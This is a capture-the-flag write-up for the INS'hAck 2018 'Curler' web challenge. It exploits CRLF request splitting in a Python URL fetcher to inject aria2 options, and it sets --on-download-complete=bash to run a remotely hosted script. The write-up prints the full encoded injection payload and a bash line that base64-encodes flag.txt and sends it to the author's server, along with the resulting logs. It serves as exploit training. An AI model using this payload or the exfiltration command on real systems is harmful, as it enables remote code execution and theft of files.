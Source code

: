```yaml
---
layout: post
title:  "INS'hAck CTF 2018 - Curler"
date:   2018-04-09 12:46
categories: [INShAck2018]
tags: [Web]
author: jbz
---
```


>Show me some stats on my website! Have a look to my source code attached too!
>nc curler.ctf.insecurity-insa.fr 10001
>[source](https://static.ctf.insecurity-insa.fr/wrapper.py)

nc curler.ctf.insecurity-insa.fr 10001

```bash
Launching your app..
5..
4..
3..
2..
1..
Welcome to your FaaS (Fetcher as a Service)!
This program allows you to fetch some stats on a given web url.

Current config is:
URL to fetch: http://insecurity-insa.fr
Fetcher options: {'timeout': 2, 'connect timeout': 2, 'max tries': 5, 'dry run': False}

Please choose your action:
  1. Change the default configuration of our fetcher
  2. Choose the URL you want us to inspect
  3. Fetch!
  4. Exit

Choice?
```

From the source code we can observe a lot of limitations:

* `url_to_fetch` must be valid JSON
* `url_to_fetch` when parsed with `urlparse` must return the http scheme, a valid host and a path
* `fetcher_options` is very limited and strictly controlled
* The outbound request is not made by the script itself but sent via POST to a Flask backend (but sources are not provided)

Also, by using the service we can get these other informations:

* No response content is ever returned, only statistical data, so we only know if the request was succesfull or not
* The Flask backend application use aria2 to perform the requests:

```bash
connect to [jbzserver] from ip-147-135-133.eu [147.135.133.206] 57218
GET / HTTP/1.1
User-Agent: aria2/1.19.0
Accept: */*,application/metalink4+xml,application/metalink+xml
Host: jbzserver:8080
````

`aria2` is a C language lightweight download manager which supports a lot of protocols and options.
It looks like the client script sends aria2 parameters and the destination url to the backend which then probably uses them via `subprocess`. Given the parametrization of the parameters they are probably used correctly (i.e.: no command injection with ;$() etc) so we should check `aria2` manual to see if there is any option that can be useful. However before looking into the command execution we need to find a way to send our custom parameters to tha backend.

From the source code:

```python
def fetch():
    # Hit local flask server
    conn = HTTPConnection(fetcher_service, 8888)
    options = []
    for conf in fetch_options.values():
        options.append(conf["key"] + "=" + str(conf["value"]).lower())
    params = bson.dumps({
        "options": options
    })
    conn.request("POST", "/?url=" + url_to_fetch, params)
    response = conn.getresponse()
    print("Stats:")
    print(response.read().decode())
    print()
```

As we can see they're not using python's `request` library but the raw `http.client`. Since `url_to_fetch` is appended without any particular sanitizations (aparte from being parse by `urlparse`) it's possible to inject CRLF to perform an HTTP request Splitting:
in practice we could add some newline characters we changing the `url_to_fetch` parameter and modify the request with our own body and headers. By controlling the `Content-Type` header we are able to force the backend server to discard the additional body added by the script.

By running the original script locally in order to test the vulnerability we can see that using `"http://jbz.com/ HTTP/1.1\r\nheader: splitting-test"` as a url the backend would receive the following request:

```bash
connect to [127.0.0.1] from localhost [127.0.0.1] 56362
POST /?url=http://jbz.com/ HTTP/1.1
header: splitting-test HTTP/1.1
Host: 127.0.0.1:8888
Accept-Encoding: identity
Content-Length: 109

moptions_0
          --timeout=21--connect-timeout=22--max-tries=53--dry-run=false

```

So the splitting does work.

However there's still a problem: the body of the request is being produced by the `bson.dumps` functions which hash a binary output which is not being encoded. Since our payload need to be loaded from the `url` config via the `json.loads` we can't directly send stuff like null bytes because JSON will fail. After a lot of testing we discovered that while `\x00` can't be used because it's a control character, it's unicode equivalent, `\u0000` is indeed valid.

The next step is to check the `aria2` manual to see if there are useful options:

From [the aria2c doc](http://aria2.github.io/manual/en/html/aria2c.html):

```bash
--on-download-complete=<COMMAND>

Set the command to be executed after download completed.
See See Event Hook for more details about COMMAND.
See also --on-download-stop option. Possible Values: /path/to/command
```

Let’s see an example of how arguments are passed to command:

``` bash
$ cat hook.sh
#!/bin/sh
echo "Called with [$1] [$2] [$3]"
$ aria2c --on-download-complete hook.sh http://example.org/file.iso
Called with [1] [1] [/path/to/file.iso]
```

The above options should help to achieve code execution but there are again limitations:

* `/path/to/command` needs the executable permissions which we cannot set
* The first argument of `/path/to/command` is the GID of the download

Luckly the GID of a download is random by default but it can be forced by the `--gid` option.
The following aria2c command succesfully execute the payload located at `http://jbzserver/a41b1d2f5a2c2da7`:

```bash
aria2c --on-download-complete=bash --gid=a41b1d2f5a2c2da7 http://jbzserver/a41b1d2f5a2c2da7 --dry-run=false
```

Here's the final payload prepared for the request splitting and unicode encoded:

```bash
"http://jbzserver:8080/a41b1d2f5a2c2da7 HTTP/1.1\r\nHost: localhost\r\nAccept-Encoding: identity\r\nContent-Length: 126\r\n\r\n\u007e\u0000\u0000\u0000\u0004\u006f\u0070\u0074\u0069\u006f\u006e\u0073\u0000\u0070\u0000\u0000\u0000\u0002\u0030\u0000\u0010\u0000\u0000\u0000\u002d\u002d\u0064\u0072\u0079\u002d\u0072\u0075\u006e\u003d\u0066\u0061\u006c\u0073\u0065\u0000\u0002\u0031\u0000\u001c\u0000\u0000\u0000\u002d\u002d\u006f\u006e\u002d\u0064\u006f\u0077\u006e\u006c\u006f\u0061\u0064\u002d\u0063\u006f\u006d\u0070\u006c\u0065\u0074\u0065\u003d\u0062\u0061\u0073\u0068\u0000\u0002\u0032\u0000\u000c\u0000\u0000\u0000\u002d\u002d\u0074\u0069\u006d\u0065\u006f\u0075\u0074\u003d\u0032\u0000\u0002\u0033\u0000\u0017\u0000\u0000\u0000\u002d\u002d\u0067\u0069\u0064\u003d\u0061\u0034\u0031\u0062\u0031\u0064\u0032\u0066\u0035\u0061\u0032\u0063\u0032\u0064\u0061\u0037\u0000\u0000\u0000\r\n\r\n"
```

For completeness, here's the payload:

```bash
#!/bin/bash
aria2c http://jbzserver:8080/?resp=$(cat flag.txt | base64 | tr -d '\n')
```

```bash
Serving HTTP on 0.0.0.0 port 8080 ...
213.32.74.44 - - [09/Apr/2018 10:23:37] "GET /a41b1d2f5a2c2da7 HTTP/1.1" 200 -
213.32.74.44 - - [09/Apr/2018 10:23:38] "GET /?resp=SU5TQXt3cm9uZ19saWJzX2NvbWJpbmF0aW9uP19vcl9iYWRfcHJvZ3JhbW1lcj99 HTTP/1.1" 200 -
```

The flag was `INSA{wrong_libs_combination?_or_bad_programmer?}`.
